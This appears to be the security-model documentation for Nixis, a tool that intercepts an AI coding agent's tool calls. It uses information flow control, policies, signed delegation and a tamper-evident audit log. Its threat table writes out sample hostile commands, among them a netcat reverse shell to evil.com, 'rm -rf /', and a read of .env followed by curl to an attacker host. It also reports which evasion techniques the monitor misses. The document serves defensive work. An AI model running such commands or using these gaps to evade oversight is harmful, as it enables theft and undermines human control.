

# Security Model

## Threat Model

### What Nixis Defends Against

Nixis assumes the AI agent is **capable but untrustworthy**. It may attempt:

| Threat | Example | Nixis mitigation |
|--------|---------|------------------|
| Secret exfiltration | Read `.env` then `curl` to attacker server | IFC: tainted session blocked from network egress |
| Destructive commands | `rm -rf /`, `DROP TABLE`, disk wipe | CEL policies: pattern-matched and blocked pre-execution |
| Reverse shells | `nc -e /bin/sh evil.com 4444` | CEL policies: 6 reverse shell variants detected |
| Supply chain attacks | `npm install malicious-typosquatted-pkg` | Policy: REQUIRE_APPROVAL for new package installs |
| Privilege escalation | `sudo chmod 777 /etc/shadow` | CEL policies + IFC: privilege operations denied |
| Data poisoning | Write malicious code to trusted paths | IFC: integrity label prevents write-down |
| Taint propagation | Read secrets → write to public file | IFC: monotone taint tracking prevents laundering |
| Audit tampering | Modify logs to hide evidence | SHA-256 hash chain: tampering breaks the chain |

### What Nixis Does NOT Defend Against

- **Compromised host OS** — If the attacker has root, they can bypass Nixis by removing the hook or killing the daemon.
- **Side channels** — Nixis evaluates tool calls, not information leakage through timing, output formatting, or model behavior.
- **Social engineering** — If the human approves a malicious REQUIRE_APPROVAL request, Nixis allows it.
- **Denial of service** — An agent can flood the daemon with requests (mitigated by the semaphore-bounded accept loop, but not fully prevented).

### Trust Boundaries

```
┌─────────────────────────────────────┐
│ UNTRUSTED: AI Agent (model output)  │
│   - Tool call arguments             │
│   - Any claimed context/reasoning   │
└─────────────┬───────────────────────┘
              │ tool call
┌─────────────▼───────────────────────┐
│ ENFORCEMENT: Nixis Hook + Daemon    │
│   - Cannot be bypassed by model     │
│   - IDE calls hook before execution │
└─────────────┬───────────────────────┘
              │ approved tool calls only
┌─────────────▼───────────────────────┐
│ TRUSTED: Operating system + tools   │
│   - File system, shell, network     │
└─────────────────────────────────────┘
```

The critical property: the AI agent never executes tools directly. The IDE interposes the hook on every invocation. The model cannot skip this step — it's enforced by the IDE integration, not by prompt instructions.

## Information Flow Control (IFC)

### Why IFC, Not Just Rules?

Rule-based policies (like CEL alone) check individual actions in isolation: "is this specific command dangerous?" IFC tracks *information flow across a session*: "given what this session has already seen, where can data flow next?"

This catches attacks that no single-action rule can detect:

```
Action 1: Read .env              → CEL alone: maybe ALLOW (reading config is common)
Action 2: curl evil.com --data   → CEL alone: maybe ALLOW (curl is legitimate)
Combined: Read .env THEN curl    → IFC: DENY — session is tainted, network egress blocked
```

### The Lattice Model

Nixis implements a **Bell-LaPadula + Biba** lattice:

- **Bell-LaPadula** (confidentiality): "No read up, no write down" — a session cannot read data above its clearance, and cannot leak data to a less-privileged destination.
- **Biba** (integrity): "No read down, no write up" — a session cannot be contaminated by untrusted input, and cannot write to higher-integrity targets.

### SecurityLabel Structure

```go
type SecurityLabel struct {
    Confidentiality uint16   // Higher = more secret
    Integrity       uint16   // Higher = more trusted
    Category        uint32   // Bitmask: compartments
}
```

**Category bits** partition data into compartments:

| Bit | Name | Meaning |
|-----|------|---------|
| 0 | `CatCredentials` | Passwords, API keys, tokens |
| 1 | `CatFinance` | Financial data |
| 2 | `CatPersonalData` | PII, GDPR-sensitive |
| 3 | `CatInternal` | Internal company data |
| 4 | `CatCryptographic` | Encryption keys, TLS certs |
| 30 | `CatSecurityKey` | High-value security assets |
| 31 | `TaintBit` | Tainted-by-secret sentinel (monotone) |

### Dominance Check

Access is allowed only when the subject **dominates** the object:

```go
func Dominates(subject, object SecurityLabel) bool {
    return subject.Confidentiality >= object.Confidentiality &&
        subject.Integrity >= object.Integrity &&
        (subject.Category & object.Category) == object.Category
}
```

The subject must have equal or higher clearance, equal or higher integrity, and a superset of the required categories. Some label pairs are incomparable (neither dominates), which means access is denied by default.

### Join (Least Upper Bound)

When data from two sources combines, the result has the label:

```go
func Join(a, b SecurityLabel) SecurityLabel {
    return SecurityLabel{
        Confidentiality: max(a.Conf, b.Conf),  // taint propagates UP
        Integrity:       min(a.Int, b.Int),     // integrity goes DOWN
        Category:        a.Cat | b.Cat,         // union of compartments
    }
}
```

### Session Taint Propagation

When a session accesses a resource, the session's label is **elevated** (different from Join):

```go
func Elevate(session, resource SecurityLabel) SecurityLabel {
    return SecurityLabel{
        Confidentiality: max(session.Conf, resource.Conf),
        Integrity:       max(session.Int, resource.Int),   // UP, not DOWN
        Category:        session.Cat | resource.Cat,
    }
}
```

**Why Elevate differs from Join:** Join is a mathematical LUB for policy reasoning. Elevate is a high-water mark for session tracking. Conflating them (using min for integrity in session tainting) breaks lattice antisymmetry — a common mistake in IFC implementations.

### Session Lifecycle



**Taint is monotone** — once a session reads credentials, the `TaintBit` is set and cannot be cleared without passing through a declassification gate (which requires a valid delegation chain).

**Sink enforcement** — A tainted session is blocked from:
- Network egress (`curl`, `wget`, `nc`, `ssh`)
- Content publish (write to public repositories, send messages)
- Agent coordination (invoke other AI agents that might exfiltrate)

## Delegation Chains

### Purpose

Sometimes a session legitimately needs elevated privileges. Delegation chains provide *auditable, time-bounded, cryptographically-verified* permission escalation.

### How It Works

```
User (root authority)
  │ signs with Ed25519 private key
  ▼
DelegationToken {
  subject: "session-abc123"
  capabilities: ["read-credentials", "network-egress"]
  ttl: 30 minutes
  max_depth: 3
  issuer_signature: <64 bytes>
}
  │ optionally delegates further
  ▼
DelegationToken (depth 2) {
  subject: "sub-session-def456"
  capabilities: ["read-credentials"]  ← can only narrow, never widen
  parent: <hash of parent token>
  ...
}
```

**Properties:**
- **Ed25519 signatures** — 64-byte signatures, ~100ns verification. Compact for wire transport.
- **Max depth 8** — Prevents unbounded delegation chains. Each level can only narrow capabilities, never widen.
- **TTL expiry** — Every token has a wall-clock expiry. Expired tokens are rejected even if cryptographically valid.
- **Capability narrowing** — A delegate can pass on a subset of its capabilities, never a superset. This is enforced mathematically via `Meet()` (GLB) on the capability label.

### Declassification Gates

To move a session from `tainted_by_secret` to `declassified`, the request must carry a valid delegation chain that:

1. Chains back to a trusted root key
2. Includes the `declassify` capability
3. Has not expired
4. Is within max depth

This ensures that declassification is always an auditable, intentional human decision — not something the AI can grant itself.

## Audit Integrity

### SHA-256 Hash Chain

Every governance decision is recorded in an append-only audit log with tamper detection:

```
Record N:
  chainHash = SHA-256(record[N-1].chainHash || serialize(record[N]))
  
Record N+1:
  chainHash = SHA-256(record[N].chainHash || serialize(record[N+1]))
```

If any record is modified after the fact, its hash changes, which invalidates the hash of every subsequent record. An auditor can verify integrity by replaying the chain from genesis.

### What's Recorded

Each audit record contains:
- Timestamp (monotonic)
- Session ID
- Tool name and arguments (with credential fields redacted)
- Verdict (ALLOW/DENY/REQUIRE_APPROVAL/AUDIT)
- Reason string
- Policy ID that triggered the verdict
- Enforcing layer (classify/ifc/cel/secret/delegation)
- Security label before and after evaluation
- Latency

### Redaction

Arguments containing sensitive data are sanitized before storage:

```go
func SanitizeArgs(args map[string]interface{}) map[string]interface{} {
    // Redacts values for keys containing: key, token, secret, password, credential
}
```

### Storage

- **SQLite in WAL mode** — Single-file deployment, concurrent reads, single-writer goroutine
- **Batched writes** — 64 records per batch, 100ms flush timeout
- **Non-blocking hot path** — Evaluation sends to a buffered channel; if full, increments a drop counter (never blocks the verdict)

## Secret Detection

Nixis integrates [gitleaks](https://github.com/zricethezav/gitleaks) to scan tool arguments for credentials at evaluation time:

- API keys, tokens, passwords in shell commands
- Private keys referenced in file paths
- Connection strings with embedded credentials

When a secret is detected:
1. The `secret_detected` flag is set on the request (available in CEL expressions)
2. The session's security label is elevated (taint propagation)
3. Policies can react: e.g., "if secret detected AND tool is network-related → DENY"

## The Fundamental Argument

**Why external enforcement instead of prompt engineering?**

Prompt engineering asks the model to police itself. This is equivalent to asking a contractor to audit their own invoices — it works most of the time, but fails precisely when it matters most (adversarial inputs, jailbreaks, capability probing).

Nixis enforces at the **system boundary** — between the model's output and the tool's execution. The enforcement layer:
- Has no prompt that can be jailbroken
- Cannot be overridden by model reasoning
- Operates on the actual tool call, not the model's description of what it's about to do
- Records tamper-evident audit of every decision
- Applies formal mathematical access control (IFC), not pattern heuristics

The model can *request* any action. Nixis decides whether it *executes*.

## Current Detection Coverage

Based on the adversarial evaluation benchmark (784 total cases — 506 training, 278 held-out test):

| Category | Test Recall | Training Recall | What it means |
|----------|-------------|-----------------|---------------|
| Direct attacks | 93.6% | 93.1% | Unobfuscated dangerous commands — well covered |
| Evasion techniques | 86.7% | 86.7% | Base64 encoding, variable expansion, multi-stage — mostly caught |
| Delegation attacks | 80.0% | 85.7% | Forged/expired chains — caught, but layer attribution is off |
| Taint propagation | 77.8% | — | Read-secret-then-exfiltrate sequences |
| Label manipulation | 51.9% | 52.9% | IFC label spoofing — **needs Go-level hardening** |
| Protocol attacks | 38.1% | 18.4% | Wire-level abuse — **needs Go-level changes** |
| Edge cases | 42.4% | — | Boundary conditions — mixed coverage |

**Overall precision: 92%** — roughly 1 in 12 deny decisions is a false positive.

For everyday use (blocking `rm -rf`, reverse shells, credential reads, dangerous installs), coverage is 87-94%. Sophisticated adversaries using encoding or protocol-level manipulation see 38-52% recall — those categories need Go pipeline changes, not more CEL. Train/test gap is small (F1: 84% vs 80%) — no overfitting.

Nixis raises the bar significantly but should be combined with network segmentation, least-privilege filesystem permissions, and audit log monitoring in high-security environments.

## Hardening Suggestions

For environments with elevated security requirements:

1. **Run daemon under a process supervisor** — systemd (Linux) or launchd (macOS) ensures restart on crash. Service files are in `deploy/`. Without this, a crashed daemon means fail-open.

2. **Monitor the fail-open log** — `tail -f ~/.nixis/failopen.log` shows every request that was allowed because the daemon was unreachable. Alert on this in production.

3. **Enable OpenTelemetry** — Set `NIXIS_OTEL_ENDPOINT=localhost:4317` to export structured traces and metrics for every evaluation decision. Integrates with Jaeger, Grafana Tempo, Honeycomb.

4. **Run the eval benchmark against your policy set** — `cd eval/adversarial && ./run_eval.sh` tells you your actual coverage numbers. Treat low-recall categories as areas needing additional network-layer or OS-layer controls.

5. **Review audit regularly** — `./bin/nixis audit verify` replays the hash chain and detects any tampering. If the chain is broken, something modified the audit database.

6. **Restrict socket permissions** — The Unix socket at `/tmp/nixis.sock` is readable/writable by the creating user. Ensure the daemon and hook run as the same user. For multi-user systems, consider placing the socket in a user-specific runtime directory (`$XDG_RUNTIME_DIR/nixis/`).

> **On fail-closed mode:** Nixis currently fails open by design — a crashed daemon doesn't block developer workflows. If you need fail-closed (block everything when daemon is unreachable), modify the hook's `allowWithWarning` path to exit 2 instead of 0. This is a one-line change but carries the risk of blocking all development if the daemon crashes.
